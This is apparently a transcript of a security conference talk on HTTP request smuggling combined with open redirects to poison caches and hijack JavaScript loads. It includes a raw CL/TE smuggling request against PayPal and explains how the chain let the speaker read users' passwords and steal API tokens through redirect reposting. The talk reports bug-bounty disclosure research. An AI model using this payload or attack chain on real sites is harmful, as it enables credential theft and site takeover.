 because this  technique works on loads of systems,  you can use that to redirect JavaScript  loads on the target website and thereby  gain full control over whatever  page the JavaScript load comes from. and  use it for cache poisoning in just came  like full control over the website more  or less permanently. This became my  default technique to exploit this  vulnerability, and I got quite a few  different bounties using it.

a couple of  extra points worth mentioning if you get  a 307 open redirect that is absolute  gold dust, because imagine a web browser  is doing a post request to log someone  in ¿right? if it receives a 307 redirect, it will repost those credentials to the  new website. so you can just make people  send you their username and password in  plain text with no user interaction. also  worth mentioning is that some thick clients like a non browser-based  HTTP libraries have that data reposting  behavior on all the redirects rather  than just 307 ones, so for example on New  Relic I was able to to steal the API  tokens off one of their clients even  though they were only using a 301 redirect.
### PayPal Poisoning
now one of the targets that  this redirect cache poisoning JavaScript  hijacking strategy worked on who was  PayPal. if you try to access web static, they gave you a redirect using the host  header to populate it. 
~~~HTTP
POST /webstatis/r/fb/fb-all-prod.pp2.min.js HTTP/1.1
Host: c.paypal.com
Content-length: 61
Transfer-Encoding: chunked

0

GET /webstatic HTTP/1.1
Host: skeletonscribe.net?
X: X GET /webstatis/r/fb/fb-all-prod.pp2.min.js HTTP/1.1
Host: c.paypal.com
Connection: close
~~~
~~~response
 HTTP/1.1 302 Found  
 Location: https://skeletonscribe.net?, c.paypal.com/webstatic/ 
~~~
there was a couple  of problems though. one is that the two  hosts headers were getting concatenated,  and we only control the first one, so  this was breaking the redirect, but that  was easily fixed by sticking a question  mark at the end of the host header. the  other issue is the protocol on this redirect its HTTP,  and because of  browsers as a mixed content protections  that meant that this is only going to be  exploitable in Safari and edge and AI  for the details of how you can exploit  those, you'll need to check out my cache  poisoning presentation from last year, because I don't have time to cover it  right now. but important thing is, this  javascript file that I could  persistently turn into a redirect on my  own malicious javascript file was used  on PayPal's login page. unfortunately their login page you see  CSP which blocked the redirect, but their login page  also loaded a different page in an  iframe and this sub page didn't use CSP  and also imported my poisoned JavaScript  file, so I could hijack the iframe, but  thanks to the same origin policy I  couldn't read the user's password off  the parent page because I was stuck on c.paypal.com/i. But, my colleague Gareth  Heyes, found an endpoint paypal.com/us/gifts and this is a static page, it doesn't have CSP or it in it at the  time and it once again imports my  malicious javascript file, so by first  compromising the iframe, because it loads  c.paypal.com/i and then redirecting  the iframe to paypal.com/us/gifts  and then re compromising it using  my javascript file, i could then read the  user's paypal password off the payment page and send it off to  my website.
so the end impact is if you  went to pay powers website in one of  those browsers i just more less got your  password and they paid a healthy  nineteen thousand dollar bounty for that  [Applause]  
